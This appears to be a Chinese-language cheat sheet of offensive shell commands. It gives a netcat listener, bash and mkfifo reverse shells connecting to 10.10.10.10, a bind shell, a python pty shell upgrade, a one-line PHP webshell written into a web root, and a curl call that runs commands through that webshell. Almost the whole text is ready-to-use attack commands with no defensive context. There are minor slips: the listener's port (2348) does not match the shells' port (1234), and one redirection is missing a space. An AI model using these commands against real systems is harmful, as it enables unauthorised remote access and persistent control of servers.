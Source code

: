 ### 启动监听
    nc -lvnp 2348

### 从远程服务器发送反弹shell
    bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'

### 从远程服务器发送另一个反弹shell
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1\|nc 10.10.10.10 1234 >/tmp/f

### 在远程服务器上启动绑定shell
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/bash -i2>&1\|nc -lvnp 1234 >/tmp/f

### 连接到在远程服务器上启动的绑定shell
    nc 10.10.10.10 1234

### 升级shell环境
    python -c 'import pty; pty.spawn("/bin/bash")'
    ctrl+z然后 stty raw -echo然后 fg然后连续按enter两次

### 创建一个webshell php文件
    echo "<?php system(\$_GET['cmd']);?>" >/var/www/html/shell.php

### 在上传的webshell上执行命令
    curl http://SERVER_IP:PORT/shell.php?cmd=id
